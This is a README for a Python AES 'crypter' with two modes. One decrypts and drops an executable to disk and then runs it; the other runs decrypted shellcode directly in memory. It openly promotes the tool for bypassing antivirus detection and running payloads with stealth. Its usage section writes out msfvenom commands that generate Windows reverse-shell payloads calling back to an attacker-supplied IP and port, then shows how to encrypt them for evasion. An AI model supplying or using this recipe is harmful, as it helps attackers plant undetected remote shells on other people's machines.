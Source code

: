 # 🔐 AES Crypter - Scantime & Runtime

This is a simple AES-based crypter project with two modes:

- **Scantime Crypter**: decrypts and drops an encrypted `.exe` to disk, then runs it.
- **Runtime Crypter**: decrypts and executes raw shellcode directly in memory (no file drop).

Both versions are written in Python and support custom payloads.

---

## 💡 Why use it?

Crypters are useful for obfuscating or encrypting payloads to bypass antivirus detection.  
This tool is ideal for red teamers, penetration testers, or researchers who want to test AV evasion techniques and execute payloads with higher stealth — especially in restricted environments.

---

## 🚀 Usage

### 1. Generate your payload

- For runtime:
  `msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f raw -o shellcode.bin`

- For scantime:
  `msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f exe -o payload.exe`

### 2. Encrypt your payload

- Scantime: `python3 scantime.py payload.exe`
- Runtime: `python3 runtime.py shellcode.bin`

